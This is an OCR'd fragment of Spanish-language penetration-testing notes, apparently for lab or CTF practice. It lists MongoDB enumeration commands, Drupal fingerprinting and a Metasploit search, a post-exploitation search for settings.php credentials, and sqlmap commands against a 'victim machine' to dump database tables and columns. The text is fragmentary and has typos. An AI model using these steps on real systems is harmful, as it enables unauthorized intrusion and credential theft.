     show dbs # Muestra las bases de datos
    use db # selecciona la base de datos para trabajar
    show collections # Muestra contenido de la bd (ex:admin,config)
    db.admin.find() # Muestra contenido de la tabla
    db.admin.find().pretty()# Muestra el contenido de la tabla en formato leible
    ```

#### **Gestor de contenido: Dupal**

    Drupa IP

    ```bash
    whatweb <http://example.com>
    ```

    Metasploit

    ```bash
    Drupa <=8 vulnerable

    msf> search drupal 8

    Una vez explotado, enumerar Drupal

    shell> find / -name settings.php 2>/dev/null
    /var/www/html/sites/default/settings.php

    Buscar credenciales en el fichero de configuración
    ```

#### **Gestor de contenido: Magento**

#### **SQL Map**

    Eunumerar BD

    ```bash
    # Conocer las bases de datos.

    sqlmap -u 'http://<IP máquina víctima>' --forms --dbs --batch

    # Conocer las tablas de la BD (Ex: Webapp)

    sqlmap -u 'http://<IP máquina víctima>' --forms -D Webapp --tables --batch

    # Conocer las columnas de la tabla de la BD

    sqlmap -u 'http://<IP máquina víctima>' --forms -D Webapp -T Users --columns --batch

    # Conocer la información que hay en esas columnas (ex: username,password)

